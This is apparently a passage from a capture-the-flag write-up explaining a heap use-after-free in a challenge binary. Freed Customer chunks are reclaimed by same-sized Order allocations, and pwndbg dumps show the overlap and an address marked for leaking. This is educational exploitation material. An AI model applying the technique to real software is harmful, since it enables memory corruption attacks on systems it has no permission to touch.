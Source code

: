 Note that `Customer` and `Order`'s `description` field both use same size of allocation at `0x50`. Therefore, after `free`ing a customer, we can allocate an `Order`and fully control `Customer`'s fields.

{{< admonition title="gdb" open=false >}}
Before allocating new order:

```gdb
pwndbg> tel &customers
00:0000│  0x55be7ef8d2e0 (customers) —▸ 0x55be7f3f2580 —▸ 0x55be7f3f1eb0 —▸ 0x55be7f3f1f80 ◂— 'aaaaaaaaaaaaaaaa'
01:0008│  0x55be7ef8d2e8 (customers+8) —▸ 0x55be7f3f25d0 ◂— 0x0
02:0010│  0x55be7ef8d2f0 (customers+16) —▸ 0x55be7f3f2600 ◂— 0x0
pwndbg> tel 0x55be7f3f2580
00:0000│  0x55be7f3f2580 —▸ 0x55be7f3f1eb0 —▸ 0x55be7f3f1f80 ◂— 'aaaaaaaaaaaaaaaa'
01:0008│  0x55be7f3f2588 —▸ 0x55be7f3f1fb0 —▸ 0x55be7f3f2050 ◂— 'aaaaaaaaaaaaaaaa'
02:0010│  0x55be7f3f2590 —▸ 0x55be7f3f2080 —▸ 0x55be7f3f2100 ◂— 'aaaaaaaaaaaaaaaa'
03:0018│  0x55be7f3f2598 —▸ 0x55be7f3f2160 —▸ 0x55be7f3f21c0 ◂— 'aaaaaaaaaaaaaaaa'
```

After freeing `customers[0]`:

```gdb
pwndbg> tel &customers
00:0000│ rax rdi 0x55be7ef8d2e0 (customers) —▸ 0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 0x55be7f3f1
01:0008│         0x55be7ef8d2e8 (customers+8) —▸ 0x55be7f3f25d0 ◂— 0x0
02:0010│         0x55be7ef8d2f0 (customers+16) —▸ 0x55be7f3f2600 ◂— 0x0
pwndbg> tel 0x55be7f3f2580
00:0000│  0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 0x55be7f3f1	# customers[0] is freed
01:0008│  0x55be7f3f2588 —▸ 0x55be7f3f1fb0 —▸ 0x55be7f3f2050 ◂— 'aaaaaaaaaaaaaaaa'
02:0010│  0x55be7f3f2590 —▸ 0x55be7f3f2080 —▸ 0x55be7f3f2100 ◂— 'aaaaaaaaaaaaaaaa'
03:0018│  0x55be7f3f2598 —▸ 0x55be7f3f2160 —▸ 0x55be7f3f21c0 ◂— 'aaaaaaaaaaaaaaaa'
```

After adding new order:

```gdb
pwndbg> tel &customers
00:0000│ rax rdi 0x55be7ef8d2e0 (customers) —▸ 0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 'got you\n'
01:0008│         0x55be7ef8d2e8 (customers+8) —▸ 0x55be7f3f25d0 ◂— 0x0
02:0010│         0x55be7ef8d2f0 (customers+16) —▸ 0x55be7f3f2600 ◂— 0x0
pwndbg> tel 0x55be7f3f2580
00:0000│  0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 'got you\n'	# new order
01:0008│  0x55be7f3f2588 —▸ 0x55be7f3f1fb0 —▸ 0x55be7f3f2050 ◂— 'aaaaaaaaaaaaaaaa'
02:0010│  0x55be7f3f2590 —▸ 0x55be7f3f2080 —▸ 0x55be7f3f2100 ◂— 'aaaaaaaaaaaaaaaa'
03:0018│  0x55be7f3f2598 —▸ 0x55be7f3f2160 —▸ 0x55be7f3f21c0 ◂— 'aaaaaaaaaaaaaaaa'
pwndbg> tel 0x55be7f3f1eb0
00:0000│  0x55be7f3f1eb0 ◂— 'got you\n'
01:0008│  0x55be7f3f1eb8 ◂— 0x0
02:0010│  0x55be7f3f1ec0 ◂— 0x1e
03:0018│  0x55be7f3f1ec8 ◂— 0x0
04:0020│  0x55be7f3f1ed0 ◂— 0x0
05:0028│  0x55be7f3f1ed8 —▸ 0x55be7f3f1ee8 ◂— 0x0	# leak this address
06:0030│  0x55be7f3f1ee0 ◂— 0x0
07:0038│  0x55be7f3f1ee8 ◂— 0x0
```
{{< /admonition >}}
